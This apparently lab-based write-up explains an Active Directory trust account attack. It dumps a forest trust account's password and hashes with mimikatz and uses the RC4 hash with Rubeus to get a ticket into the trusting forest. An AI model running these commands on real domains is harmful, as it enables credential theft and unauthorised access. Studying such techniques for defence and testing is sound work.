

Let's look at this case of *OneWay* trust between 2 forests.

From this we can understand that:
- There is a Oneway trust between the 2 domains. Where **Logistic** trusts **Megacorp**, but not vice versa.
- We can understand from the Outbound transitioning that **Megacorp** can reach Logistics but not **vice versa**.

## Enumeration
This can be easily checked from a shell session on DC02.
```powershell-session
Get-ADTrust -Identity megacorp.ad                                  
Direction               : Outbound                                           
DisallowTransivity      : False
DistinguishedName       : CN=MEGACORP.AD,CN=System,DC=logistics,DC=ad
ForestTransitive        : True
IntraForest             : False
IsTreeParent            : False
IsTreeRoot              : False
Name                    : MEGACORP.AD
ObjectClass             : trustedDomain
ObjectGUID              : 90748280-8770-4a93-9dde-b5c18e14125b
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source                  : DC=logistics,DC=ad
Target                  : MEGACORP.AD
TGTDelegation           : False
TrustAttributes         : 8
TrustedPolicy           :
TrustingPolicy          :
TrustType               : Uplevel
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False                        
```
From the verbose output we can understand as well a **Oneway** trust as **Outbound** from the source(Logistic), this means that only the *Megacorp* can back to *Logistic*.
If **Inbound** from the source(Logistics) then the access possible was *Logistics* to *Megacorp*.
We can doublecheck that this is failing as expected.
```powershell-session
PS C:\Tools> whoami;hostname
logistics\administrator
DC02

PS C:\Tools> Get-ADUser Administrator -Server megacorp.ad
Get-ADUser : The server has rejected the client credentials.
At line:1 char:1
+ Get-ADUser Administrator -Server megacorp.ad
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo          : SecurityError: (Administrator:ADUser) [Get-ADUser], AuthenticationException
+ FullyQualifiedErrorId : ActiveDirectoryCmdlet:System.Security.Authentication.AuthenticationException,Microsoft.ActiveDirectory.Management.Commands.GetADUsers
```

# Attack
Even if the OneWay(Outbound) trust is not allowing us go from Logistics -> Megacorp it is still possible to bypass via the **Trust Account Attack**.
## Explanation
The **Trust Account Attack** targets the trust accounts that are setup between 2 forests(`logistics$` in this example) and we can leverage our administrator permissions over the **Logistics DC** to exfiltrate the NTLM creds via *mimikatz.exe*.
Even if this trust account holds no special permissions can be seen as a foothold into the other forest(Megacorp) and bypassing effectively the *Oneway* trust directionality imposed.

## Attack Phase
We can spawn a shell as Domain Administrator on the *Source Domain(Logistics)* and export the actual credentials from the trusted account.
```powershell-session
.\mimikatz.exe

mimikatz # lsadump::trust /patch
Current domain: LOGISTICS.AD (LOGISTICS / S-1-5-21-186204973-2882451676-2899969076)
Domain: MEGACORP.AD (MEGACORP / S-1-5-21-983561975-2685977214-3442977283)
[  In ] LOGISTICS.AD -> MEGACORP.AD
[ Out ] MEGACORP.AD -> LOGISTICS.AD
* 3/9/2024 4:08:15 AM - CLEAR   - 6e 00 7a 00 67 00 28 00 59 00 64 00 4f 00 6e 00 26 00 61 00 4f 00 3e 00 24 00 2d 00 31 00
* aes256_hmac       7ff5417ab7c7500896046133c9505d6a49425bd548a4db076a3e9df702f194eb
* aes128_hmac       74fcfa250608b60297e35bc3763a60db
* rc4_hmac_nt       68e456d3a95cc748ac5a2eae679b9c91
[ In-1] LOGISTICS.AD -> MEGACORP.AD
[Out-1] MEGACORP.AD -> LOGISTICS.AD
* 3/9/2024 4:08:15 AM - CLEAR   - 6e 00 7a 00 67 00 28 00 59 00 64 00 4f 00 6e 00 26 00 61 00 4f 00 3e 00 24 00 2d 00 31 00
* aes256_hmac       7ff5417ab7c7500896046133c9505d6a49425bd548a4db076a3e9df702f194eb
* aes128_hmac       74fcfa250608b60297e35bc3763a60db
* rc4_hmac_nt       68e456d3a95cc748ac5a2eae679b9c91
```
This will **output(Out & Out1)** of both the Old(previous password) and New Password(current password).
<font color="#c00000">The reason is that the DC rotates the password every 30 days.</font>
Now you can use the hash to inject a TGT into a sacrifical session.
```powershell-session
//Create a sacrificial session
./Rubeus.exe createnetonly /program:powershell.exe /show

//Inject the TGT into the sacrificial session
.\Rubeus.exe asktgt /user:logistics$ /domain:megacorp.ad /rc4:68e456d3a95cc748ac5a2eae679b9c91 /ptt
```
